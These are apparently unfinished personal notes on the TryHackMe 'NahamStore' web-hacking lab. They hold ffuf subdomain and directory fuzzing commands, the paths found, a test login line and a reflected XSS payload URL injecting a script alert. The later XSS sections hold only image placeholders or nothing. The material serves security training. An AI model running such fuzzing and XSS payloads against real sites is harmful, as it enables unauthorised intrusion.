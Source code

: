 ___
test@test.com:testtest
# Recon

```bash
ffuf -w subdomains.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm"
```

- marketing
- shop
- stock
- www

```bash
ffuf -w content.txt -u http://nahamstore.thm/FUZZ
```

- basket
- css
- js
- login
- logout
- register
- returs
- robots.txt
- seach
- staff
- uploads

# XSS

## 1
```
http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert(1)%3C/script%3E
```

## 2 

![[Pasted image 20241219130847.png]]

```
http://nahamstore.thm/account/orders/7
```

![[Pasted image 20241219130918.png]]

## 3


